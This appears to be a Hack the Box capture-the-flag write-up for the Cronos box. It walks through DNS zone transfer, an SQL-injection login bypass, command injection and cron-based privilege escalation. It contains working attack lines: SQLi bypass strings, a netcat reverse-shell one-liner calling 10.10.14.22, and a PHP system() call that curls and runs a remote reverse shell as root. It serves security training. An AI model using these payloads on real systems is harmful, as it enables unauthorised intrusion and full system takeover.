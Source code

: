 ```yaml
---
title: Cronos
tags: linux
description: Write-up for Hack the Box - Cronos
---
```


![image](assets/79369967-d6a3e380-7f1f-11ea-95c4-5bcb116f5c27.png)

## Overview

Cronos is an Ubuntu box running Apache hosting a few different websites. I was able to determine the dns zone that the box was hosting and perform a zone transfer which gave me information about which websites it was hosting. From there some additional enumeration uncovered an admin page that was vulnerable to SQLi, allowing me to bypass the login form. This allowed access to the "Net Tool v0.1" page which was exploited to execute operating system commands and create a reverse shell as www-data. Running LinEnum showed that a cron job was running as root and that an unprivileged user had access to write to a file called artisan. Leveraging write access to the file, I copied a command that created a reverse shell as user root.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* ISC BIND 9.10.3-P4-Ubuntu
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
* Apache httpd 2.4.18 ((Ubuntu))
* laravel 5.4.16 https://github.com/laravel/laravel - released May 14, 2017
* Sudo version 1.8.16                                                                                                                                                  
* mysql  Ver 14.14 Distrib 5.7.17

**Port Scan**

```
nmap -vv -sT -A -p- 10.10.10.13 -oN /mnt/data/boxes/cronos/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 53/tcp - dns
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://www.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

/index.php
/welcome.php
/logout.php
/config.php 
/session.php

**DNS Info**

Reverse DNS Lookup

```
dig a 13.10.10.10.in-addr.arpa @10.10.10.13
```

![image](assets/80645603-60cc6b80-8a39-11ea-8aec-8030e946727c.png)

Zone Transfer

```
dig axfr 10.10.10.13 @1.2.3.4
```
* cronos.htb
* admin.cronos.htb
* www.cronos.htb

## Steps (User)

When I see port 53/dns open on the target I usually try a zone transfer. The first step was to determine the name of the zone which can be done by guessing (I see boxname.htb a lot) or by doing a reverse dns lookup. I chose the latter method and confirmed that zone cronos.htb was being hosted on the box. I was then able to use dig to do a zone transfer, showing all the records for the cronos.htb zone.

![image](assets/80645146-b94f3900-8a38-11ea-8aac-c47510ad08bb.png)

Using virtual hosts, different sites can be hosted on the same server. The server routes the request to the appropriate site based on the host header specified in the request. To facilitate this I updated /etc/hosts so I could browse to the site by name.

```
10.10.10.13     cronos cronos.htb admin.cronos.htb www.cronos.htb
```

admin.cronos.htb and www.cronos.htb pointed to the same site and all the links were to external websites. The source code also didn't show anything of use. The links to indicate that the site runs on laravel but I was unable to determine the version. I took note of this and moved on to admin.cronos.htb. 

![image](assets/80649578-4fd32880-8a40-11ea-8e93-24615e2b866d.png)

Browsing to admin.cronos.htb showed a username and password form. The source code didn't disclose anything that would've help me log in so I started going through my list of common SQL injection tests.

User Name | Password | SQL Query
:---: | :---: | :---
| user | user | SELECT * FROM users WHERE name='user' and password='user' |
| user | ' or '1'='1 | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | ' or 1='1  | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | 1' or 1=1 -- - | SELECT * FROM users WHERE name='user' and password='' or 1=1-- -' |
| ' or '1'='1 | ' or '1'='1 | SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1' |
| ' or ' 1=1 | ' or ' 1=1 | SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1' |
| 1' or 1=1 -- - | blah | SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah'|

Trying _1' or 1=1 -- -_ for the username worked and brought me to a page called "Net Tool v0.1" which allows user input to run traceroute and ping commands. As a test I pinged my machine.

![image](assets/80649146-7775c100-8a3f-11ea-8edb-cba7d485ce0b.png)

This page is actually running system commands in the background and displaying the results. It turns out I can just paste a command directly into the text field to get a reverse shell as www-data. 

![image](assets/80741013-f540d780-8ae6-11ea-934b-ee95f8ea57ab.png)

I set up a netcat listener (nc -lvnp 4200) and input the command.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4200 >/tmp/f 
```

![image](assets/80741115-202b2b80-8ae7-11ea-90a4-1309ca385a66.png)

## Steps (root/system)

I used a script called LinEnum.sh to do some additional enumeration and transferred it to the target box.

> [LinEnum](https://github.com/rebootuser/LinEnum) github repo

I copied LinEnum to my working directory and started a python http server in preperation to transfer the file.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server 80
```

On the target I used wget to download the file,  made the file executable, and ran it.

```
wget http://10.10.14.22/le.sh
chmod +x le.sh && ./le.sh
```

The LinEnum results showed something interesting under _[-] Crontab contents:_. The box name being "cronos" is a pretty big hint and is an indication I'm on the right path. The job ran a php file as root every minute.

![image](assets/80748836-933a9f00-8af3-11ea-90e5-f156a0c59615.png)

```
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Looking at the permissions of the /var/www/laravel/artisan showed that user www-data can write to this file. This meant that I could write data to the artisan file and have it be executed as root.

I copied the php reverse shell to my working directory, updated it with my box's port/IP, and started a netcat listener on a new port (nc -lvnp 4201).

```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
nc -lvnp 4201
```

With my python http server still running, I echo'd a php command to the artisan file. The command downloaded rshell.php from my box (the reverse shell) and executed it.
```
echo "<?php system('curl http://10.10.14.22/rshell.php | php') ?>" > /var/www/laravel/artisan
```
Once executed on the target I received a callback and shell as root.

![image](assets/80750548-4906ed00-8af6-11ea-8943-95e433b5e519.png)
